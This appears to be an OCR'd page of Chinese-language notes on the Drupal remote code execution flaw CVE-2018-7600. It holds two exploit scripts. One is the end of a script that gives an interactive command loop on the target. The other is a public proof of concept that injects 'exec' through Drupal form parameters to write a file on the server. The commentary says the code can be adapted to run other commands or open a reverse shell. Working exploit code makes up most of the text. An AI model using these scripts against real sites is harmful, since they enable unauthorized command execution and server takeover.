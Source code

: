 ```

	m = re.search(r'<input type="hidden" name="form_build_id" value="([^"]+)" />', r.text)
	if m:
	    found = m.group(1)
	    get_params = {'q':'file/ajax/name/#value/' + found}
	    post_params = {'form_build_id':found}
	    r = requests.post(HOST, data=post_params, params=get_params)
	    print("\n".join(r.text.split("\n")[:-1]))


while True:
	command = raw_input('$ ')
	exploit(command)

   这个示例提供了两种不同的利用方式。第一种是直接通过POST请求执行命令，例如使用命令“id”来执行。第二种则是通过构造一个更复杂的POST请求，其中包括特定的表单数据来执行命令。
```
   [博客园上的示例：](https://www.cnblogs.com/liang-chen/p/14377891.html)
```
      #!/usr/bin/env python3
      import sys
      import requests
      print ('################################################################')
      print ('# Proof-Of-Concept for CVE-2018-7600')
      print ('# by Vitalii Rudnykh')
      print ('# Thanks by AlbinoDrought, RicterZ, FindYanot, CostelSalanders')
      print ('# https://github.com/a2u/CVE-2018-7600')
      print ('################################################################')
      print ('Provided only for educational or information purposes\n')

      target = input('Enter target url (example: https://domain.ltd/): ')

      # Add proxy support (eg. BURP to analyze HTTP(s) traffic)
      # set verify = False if your proxy certificate is self signed
      # remember to set proxies both for http and https
      # 
      # example:
      # proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}
      # verify = False
      proxies = {}
      verify = True

      url = target + 'user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax' 
      payload = {'form_id': 'user_register_form', '_drupal_ajax': '1', 'mail[#post_render][]': 'exec', 'mail[#type]': 'markup', 'mail[#markup]': 'echo ";-)" | tee hello.txt'}

      r = requests.post(url, proxies=proxies, data=payload, verify=verify)
      check = requests.get(target + 'hello.txt', proxies=proxies, verify=verify)
      if check.status_code != 200:
         sys.exit("Not exploitable")
      print ('\nCheck: '+target+'hello.txt')
```
   这个示例提供了一个链接，可以从GitHub下载一个Python脚本，用于利用CVE-2018-7600。该脚本执行后，可以访问特定的URL来验证命令是否执行成功。这个脚本还可以修改执行其他命令或反弹shell等 。

